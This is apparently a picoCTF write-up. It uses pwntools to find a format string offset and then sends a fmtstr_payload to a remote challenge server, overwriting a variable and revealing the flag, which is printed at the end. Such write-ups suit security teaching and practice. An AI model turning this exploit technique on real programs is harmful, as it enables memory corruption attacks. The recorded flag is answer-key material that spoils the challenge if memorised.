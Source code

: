 ```yaml
---
ai_date: 2025-04-27 05:29:18
ai_summary: Format string attack exploited to leak and overwrite memory with the flag
ai_tags:
  - fmt-str
  - rop
  - buffer-overflow
created: 2024-08-07T23:48
updated: 2025-07-14T09:46
---
```


Simple application of format string attack.
## Offset

```python
from pwn import *

elf = context.binary = ELF('./vuln')


def send_payload(payload):
    p = elf.process()
    p.sendline(payload)
    l = p.recvall()
    p.close()
    return l


offset = FmtStr(send_payload).offset
info(f"{offset=}")
```

## Format String Attack

```python
info(f"{elf.symbols['sus']=}")

p = remote('rhea.picoctf.net', 49852)
p.sendline(fmtstr_payload(offset, {elf.symbols['sus']: 0x67616c66}))
info(p.recvall().decode())
p.close()
```

```flag
picoCTF{f0rm47_57r?_f0rm47_m3m_e371fb20}
```